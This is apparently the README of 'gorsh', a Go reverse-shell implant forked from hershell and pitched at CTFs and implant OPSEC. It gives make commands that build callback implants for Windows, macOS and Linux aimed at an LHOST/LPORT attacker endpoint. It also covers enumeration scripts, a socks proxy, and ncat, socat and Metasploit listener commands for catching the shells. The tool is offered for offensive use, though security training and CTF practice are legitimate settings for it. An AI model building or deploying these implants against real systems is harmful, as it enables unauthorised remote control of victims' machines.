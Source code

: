 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes

**Requires go1.11+**

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).


```bash
go get -u github.com/gobuffalo/packr/packr
go get github.com/audibleblink/gorsh/...
git clone git@github.com:audibleblink/gorsh.git
cd gorsh
```

Makefile assumes this project is being built on Linux.

Be sure to read the Makefile. It gives you a good idea of what's going on.
If enabled in `Makefile`, the `zipcat` cmdlet uses the zStandard compression library which requires
`cgo` compilation.
Leave the defaults in the Makefile unless you're familiar with cross-compilation and cgo and have
the toolchains for it, or read [here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

First, generate your certs and ssh keys for the reverse proxy.

```bash
$ make depends
```

If you want to use the `socks` feature, edit `configs/ssh.json`. Create a user on the SSH server
and give it a `/bin/false` shell in `/etc/passwd`

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

### Enumeration Scripts

The `enum` command will present a selection dialog that allows once to run enumeration scripts based
on the host OS. You can update scripts in `scripts/prepare_enum_scripts.sh` and run 
`make enumscripts`. Addition of scripts will require modification of
`./internal/enum/enum_{windows,linux}.go`

[Troubleshooting](./docs/TROUBLESHOOTING.md)


#### Catching the shell

This project ships with a server that catches the reverse shell and still provides shell-like
capabilities you lose with traditional reverse shells, including:

* Tab Completion
* Vi-mode readline editing
* History
* Cursor movements

Generate the server with:

```sh
make server
build/srv/gorsh-listen --help
```

The gorsh-listener is a one-to-one relationship, like a traditional shell. For multiple shells, you
need to start multiple servers on different ports. 

To have the ability to receive multiple shells on the same port, there's the `make listen` target.
The `make listen` target kicks off a socat TLS pipe and creates new tmux windows with each new
incomgin connection.  Feed it a port number as PORT. 
`socat` is essentially acting as a TLS-terminating reverse proxy. The incoming connections are then
handed off to gorsh-listener through randomly generated Unix Domain Sockets.

```sh
make listen PORT=8080

# once a client connects, on a different terminal type:
tmux attach -t GORSH
```

Shells can also be caught without tmux or gorsh-listen using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide
